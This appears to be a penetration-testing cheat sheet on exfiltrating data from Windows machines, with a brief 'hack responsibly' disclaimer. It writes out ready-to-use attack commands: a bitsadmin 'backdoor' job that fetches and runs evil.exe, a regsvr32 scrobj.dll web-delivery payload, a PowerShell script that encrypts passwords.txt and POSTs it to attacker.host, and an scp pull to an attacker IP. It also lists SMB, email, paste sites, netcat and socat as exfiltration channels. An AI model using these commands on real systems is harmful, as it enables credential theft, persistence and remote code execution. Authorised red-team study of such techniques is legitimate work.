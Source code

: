 # Data Exfiltration

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.‌
{% endhint %}

\
Not much here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)

### BITS Jobs

{% tabs %}
{% tab title="PowerShell" %}
First, you must import the BitsTransfer PowerShell Module with `Import-Module BitsTransfer`.  After you import the BitsTransfer module, the following cmdlets are available:

* **`Add-BitsFile`** Adds files to a BITS transfer
* **`Complete-BitsTransfer`** Completes a BITS transfer
* **`Get-BitsTransfer`** Gets a BITS transfer
* **`Remove-BitsTransfer`** Stops a BITS transfer
* **`Resume-BitsTransfer`** Resumes a suspended BITS transfer
* **`Set-BitsTransfer`** Configures a BITS transfer job
* **`Start-BitsTransfer`** Creates and starts a BITS transfer job
* **`Suspend-BitsTransfer`** Pauses a BITS transfer job

For example, the following Windows PowerShell command begins a BITS transfer from the local computer to a computer named CLIENT:

```powershell
Start-BitsTransfer -Source file.txt -Destination \\client\share -Priority normal
```

When running Windows PowerShell interactively, the PowerShell window displays the progress of the transfer. The following command uses an abbreviated notation to download a file from a Web site to the local computer:

```powershell
Start-BitsTransfer https://server/dir/myfile.txt C:\docs\myfile.txt
```

Manage BITS with PowerShell - Microsoft:

* [https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721\(v=msdn.10\))
{% endtab %}

{% tab title="cmd.exe" %}
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```
{% endtab %}
{% endtabs %}

### Using FTP

See [this section](privilege-escalation.md#using-ftp) under Privilege Escalation

### Using SMB

{% tabs %}
{% tab title="PowerShell" %}
#### Create an SMB share <a href="#example-1-create-an-smb-share" id="example-1-create-an-smb-share"></a>

```powershell
New-SmbShare -Name "Exfil" -Path "C:\temp" -FullAccess "$Domain\Administrator"
```

This command creates an SMB share named "Exfil" and grants Full Access permissions to "$Domain\\$UserName".

For more about the New-SmbShare PowerShell cmdlet:

* [https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps](https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps)
{% endtab %}

{% tab title="cmd.exe" %}

{% endtab %}
{% endtabs %}

See [this section](privilege-escalation.md#smb) under Privilege Escalation for more

### HTTP POST with PowerShell

If you set up a web server to accept post requests, you can either AES encrypt or base64 encode your target data and simply send an HTTP request to the server with the data.

Example with AES encrypted payload:

```
$file = Get-Content C:\Users\Target\Desktop\passwords.txt
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$securestring = New-Object System.Security.SecureString
foreach ($char in $file.toCharArray()) {
      $secureString.AppendChar($char)
}
$encryptedData = ConvertFrom-SecureString -SecureString $secureString -Key $key

Invoke-WebRequest -Uri http://www.attacker.host/exfil -Method POST -Body $encryptedData
```

To decode the data on the other side simply reverse the process:

```
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$encrypted = "$encrypted_payload"
echo $encrypted | ConvertTo-SecureString -key $key | ForEach-Object {[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR($_))}
```

Simply substitute the `$encrypted_payload` variable with the actual content that was sent in the body of the HTTP request, and you will have your exfiltrated file!

### Covert to and from Base64 with PowerShell

You can always convert your data or files to be exfiltrated to Base64 text and simply copy and paste this in your terminal (or use bash/PowerShell magic to convert your target data back).  See [this section](privilege-escalation.md#covert-to-and-from-base64-with-powershell) under Privilege Escalation for more information on this technique.

### Send an email with PowerShell

#### PowerShell `Send-MailMessage` cmdlet

```powershell
Send-MailMessage -From 'User01 <user01@fabrikam.com>' -To 'User02 <user02@fabrikam.com>', 'User03 <user03@fabrikam.com>' -Subject 'Sending the Attachment' -Body "Forgot to send the attachment. Sending now." -Attachments .\data.csv -Priority High -DeliveryNotificationOption OnSuccess, OnFailure -SmtpServer 'smtp.fabrikam.com'
```

* The **`From`** parameter to specify the message's sender.&#x20;
* The **`To`** parameter specifies the message's recipients.&#x20;
* The **Subject** parameter describes the content of the message.&#x20;
* The **Body** parameter is the content of the message.
* The **`Attachments`** parameter specifies the file in the current directory that is attached to the email message.&#x20;
* The **`Priority`** parameter sets the message to **High** priority.&#x20;
* The **`-DeliveryNotificationOption`** parameter specifies two values, **`OnSuccess`** and **`OnFailure`**. The sender will receive email notifications to confirm the success or failure of the message delivery.&#x20;
* The **`SmtpServer`** parameter sets the SMTP server to **smtp.fabrikam.com**.

According to Microsoft this cmdlet has been deprecated with no replacement.  However, if it is present on the machine it should still work!

* [https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2)

## Misc

### Web services

* Anon paste sites like Pastebin offer an easy exfiltration channel.&#x20;
* GitHub and other code versioning sites are often permitted in many technical organizations.
* Many common file-storage sites like OneDrive, Dropbox, Google Drive, and Box are often permitted, especially if an organization outsources to shared cloud services.

### File-transfer Programs

In addition to the methods listed above, the following programs can be used to transfer files, provided you have copied the program to the victim machine, and it is not blocked:

* netcat
* socat
* tftp

### SCP

The attacker has to have SSHd running.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename> 
```

### Airgap Exfiltration

* [https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/](https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/)

## References

* [https://azeria-labs.com/data-exfiltration/](https://azeria-labs.com/data-exfiltration/)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
